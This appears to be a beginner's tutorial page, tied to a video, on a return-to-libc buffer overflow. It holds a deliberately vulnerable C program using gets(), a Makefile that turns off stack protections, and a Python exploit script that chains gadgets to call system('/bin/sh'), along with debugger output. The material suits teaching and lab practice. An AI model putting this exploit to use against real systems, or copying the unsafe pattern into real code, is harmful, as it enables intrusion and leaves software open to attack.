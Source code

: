 ```yaml
---
title: "Return to libc attack"
date: "2021-11-03"
tags:
  - "infosec"
  - "beginner"
  - "binexp"
  - "exploit"
---
```


watch the video on youtube

<yt-video id="2YPoSWGE-Fc"> </yt-video>

I'm sorry the vulnerable programe I show in the vide was wrong. you can find the correct code from below

`bof.c`

```c
#include<stdio.h>
#include<string.h>

void vuln_func();

int main(int argc, char *argv[])
{
        printf("hello\n");
        vuln_func();
}

void vuln_func()
{
        char buffer[256];
        gets(buffer);
}
```

`Makefile`

```Makefile
all:
        gcc -no-pie -fno-stack-protector bof.c -o vuln -D_FORIFY_SOURCE=0

clean:
        rm vuln
```

`exploit.py`

```python
#!/usr/bin/python

import struct


size = 256
libc_base = 0x00007ffff79e2000


padding = "A"* size
padding += "BBBBBBBB"


#padding += "CCCCC"

padding += struct.pack("Q", libc_base + 0x00000000000008aa) # added a ret to prevent stack issue
padding += struct.pack("Q", libc_base + 0x00000000000215bf) # the rip contain pop rpi ret
padding += struct.pack("Q", libc_base + 0x1b3e1a) # address for the bin sh
padding += struct.pack("Q", 0x7ffff7a31550) # addr for system


print padding
```

The Notes

---

## Finding the offset

found the offset to rbp

```

gef➤  pattern offset $rbp
[+] Searching for '$rbp'
[+] Found at offset 256 (little-endian search) likely
gef➤

```

overwting the rip

```python

#!/usr/bin/python

padding = "A" * 256
padding += "BBBBBBBB"
padding += "CCCCCC" # we writing the rip

print padding

```

- finding the addr for libc ( 0x00007ffff79e2000 )

- addr for ret ( 0x00000000000008aa )
- gadget (pop rdi , ret) ( 0x00000000000215bf )
- addr for the /bin/sh ( 1b3e1a )
- addr for system ( 0x7ffff7a31550 )

```
0x00000000000215bf: pop rdi; ret;
```

## found the bin sh

```

➜  yt strings -a -t x libc-2.27.so | grep '/bin/sh'
 1b3e1a /bin/sh
➜  yt

```
